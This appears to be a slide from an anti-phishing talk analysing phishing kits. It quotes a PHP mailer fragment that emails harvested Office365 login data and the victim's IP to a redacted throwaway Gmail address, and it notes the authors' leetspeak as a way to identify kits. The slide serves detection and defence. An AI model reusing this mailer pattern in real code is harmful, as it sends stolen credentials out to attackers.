

# Looking At The Kits
How the mailer looks, send to a throwaway account:
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
They like the 1337SpEaK, identifiable for ActiveAntiPhish